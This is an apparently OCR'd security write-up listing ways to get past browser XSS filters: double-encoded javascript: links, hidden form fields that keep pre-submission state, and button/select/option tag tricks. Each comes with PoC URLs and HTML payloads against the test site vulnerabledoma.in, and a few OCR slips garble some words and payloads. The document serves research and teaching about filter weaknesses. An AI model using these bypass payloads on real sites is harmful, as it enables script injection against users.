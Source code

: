 1. There are places where reflective XSS is possible in the link

supplement:

By double linking the vulnerable part and adding a referrer, `javascript:`you can create a link to the URL without reacting the XSS filter.

PoCs:

[https://vulnerabledoma.in/bypass/link?q=?q=javascript%253Aalert(1)](https://vulnerabledoma.in/bypass/link?q%3D?q%3Djavascript%25253Aalert(1))

```html
<a href="?q=javascript%3Aalert(1)">Link</a>
```

#### If the state before submission to the vulnerable form can be maintained on the page

Conditions for attacking:

1. Has reflective XSS
2. The state before submission to the vulnerable form can be maintained on the page of the same domain (including subdomains)

PoCs:

[https://vulnerabledoma.in/bypass/form?q=%26%23x22%3B%3E%26%23x3C%3Bscript%3Ealert%26%23x28%3B1)%26%23x3C%3B/script%3E](https://vulnerabledoma.in/bypass/form?q%3D%2526%2523x22%253B%253E%2526%2523x3C%253Bscript%253Ealert%2526%2523x28%253B1\)%2526%2523x3C%253B/script%253E)

```html
<form action="form">
<input type="hidden" name="q" value="&#x22;>&#x3C;script>alert&#x28;1)&#x3C;/script>">
<input type="hidden" name="secret" value="a09d3ef0">
<input type="submit">
</form>
```

#### Using option tags

Conditions for attacking:

1. There is XSS that can write arbitrary tags
2. That XSS is within an existing form

Reference URL:

- [https://html5sec.org/xssfilter/entities](https://html5sec.org/xssfilter/entities)

PoCs:

[https://vulnerabledoma.in/bypass/form3?q=%3Cbutton%20formaction=form3%3ELICK%3Cselect%20name=q%3E%3Coption%3E%26lt%3Bscript%3Ealert(1)%26lt%3B/script% 3E](https://vulnerabledoma.in/bypass/form3?q%3D%253Cbutton%2520formaction%3Dform3%253ECLICK%253Cselect%2520name%3Dq%253E%253Coption%253E%2526lt%253Bscript%253Ealert(1)%2526lt%253B/script%253E)

```html
<form action=submit>
<button formaction=form3>CLICK<select name=q><option>&lt;script>alert(1)&lt;/script>
</form>
```
